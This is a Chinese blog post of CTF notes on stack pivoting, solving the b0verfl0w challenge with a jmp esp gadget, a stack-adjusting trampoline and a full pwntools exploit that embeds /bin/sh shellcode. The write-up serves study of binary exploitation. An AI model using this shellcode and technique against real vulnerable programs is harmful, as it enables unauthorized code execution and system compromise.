 ﻿---
layout:     post
title:      栈溢出基础浅记（4）
subtitle:   stack pivoting
date:       2023-10-08
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

## stack pivoting

[花式栈溢出技巧 - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/fancy-rop/#stack-pivoting)

该方法主要针对难以直接构造较长的ROP，而我们可以找到一块可以自己控制的地址空间，通过劫持sp指针，改变程序流到我们所需的地址空间上，执行目标代码

针对[X-CTF Quals 2016 - b0verfl0w](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF Quals 2016 - b0verfl0w)这个题目

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

可以看到栈上可以执行

![16967426912551696742690311.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16967426912551696742690311.png)

危险函数为fget，限制长度为0x32，输入到EBP的距离为0x20，所以可以输入ROP的地址只剩下0x32-0x20-4=14个字节。

这道题正好符合能写ROP的长度较短，但是栈上可以执行。

```
ROPgadget --binary b0verfl0w --only 'jmp|ret' | grep esp
0x08048504 : jmp esp
```

找到jmp esp，那么就可以把控制流转移到栈上面。

构造的payload如下：

![1696748777201b6d0b6232ce3b924b292fb79813f84a.jpg](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/1696748777201b6d0b6232ce3b924b292fb79813f84a.jpg)

exp如下：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

# buffer length:0x20
# input length limit:50
# 0x08048504 : jmp esp

sh = process('./b0verfl0w')
file = ELF('./b0verfl0w')
# gdb.attach(sh)

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504

payload = shellcode.ljust(0x20, b'a') + b'bbbb' + p32(jmp_esp) + sub_esp_jmp

sh.sendline(payload)
sh.interactive()

# libc_start_main_addr = u32(sh.recv()[0:4])
# print ("get the related addr of libc_start_main_got is " + hex(libc_start_main_addr))
```


